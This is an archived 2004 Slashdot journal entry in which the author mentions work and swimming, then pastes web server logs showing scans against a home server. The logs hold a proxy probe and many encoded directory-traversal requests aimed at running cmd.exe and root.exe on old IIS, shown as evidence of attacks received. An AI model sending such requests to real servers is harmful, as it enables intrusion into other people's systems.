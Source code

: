 +++
path = "/2004/09/10/slashdot-journal-83324-life-continues/"
title = "life continues"
date = "2004-09-10T00:00:00+00:00"
[extra]
slashdot_url = "https://slashdot.org/journal/83324/life-continues"
+++

<p>Worked many hours this week, trying to get new work web site finished.</p>
<p>So this evening I cycled to the pool and did an hours training. I'm now tired and chlorinated, but very relaxed.<br>---<br>My web server went off on one at 2am the other night (just when I was thinking of going to sleep), thrashing its hdd. Think someone was trying to hack into it with a buffer overflow. Here's the log:</p>
<blockquote>
<div><p> <tt>4.227.111.174 - - [09/Sep/2004:02:22:01 +0100] "POST http://4.227.111.174:25/ HTTP/1.1" 200 480 "-" "-"</tt></p></div> </blockquote>
<p>Sods.</p>
<p>Looking at my logs, the server was subject to a few attempts within hours of it coming online.<br>Much more than my hosted site. Guess it's people running <a href="http://www.insecure.org/">nmap</a> against adsl dial up ip ranges and getting all excited by the prospect of an open port 80.</p>
<p>Here's a classic example:</p>
<blockquote>
<div><p> <tt>81.70.101.40 - - [05/Sep/2004:17:37:46 +0100] "GET<nobr> </nobr>/.hash=eb649e3d22cdb034d91b64d4c11215f83a7e2fda HTTP/1.1" 404 372 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:26 +0100] "GET<nobr> </nobr>/scripts/root.exe?/c+dir HTTP/1.0" 404 342 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/MSADC/root.exe?/c+dir HTTP/1.0" 404 340 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/c/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/d/winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 350 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/scripts/..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_vti_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/_mem_bin/..%255c../..%255c../..%255c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 381 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:28 +0100] "GET<nobr> </nobr>/msadc/..%255c../..%255c../..%255c/..%c1%1c../..%c1%1c../..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 397 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%2f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%c1%9c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 363 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%%35c../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 400 354 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%25%35%63../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.164.85.239 - - [06/Sep/2004:18:08:29 +0100] "GET<nobr> </nobr>/scripts/..%252f../winnt/system32/cmd.exe?/c+dir HTTP/1.0" 404 364 "-" "-"<br>81.215.120.25 - - [07/Sep/2004:12:59:20 +0100] "GET<nobr> </nobr>/.hash=cf770b6f55e15660d70f00542bd58efeb7a8487f HTTP/1.1" 404 372 "-" "-"</tt></p></div> </blockquote>
<p>--<br>By the way, if you think nmap is very uncool to know about, may I direct you to the news article on nmap's site which shows Trinity actually doing a real hacking attack in the film Matrix Reloaded<br><a href="http://www.insecure.org/">http://www.insecure.org/</a></p>

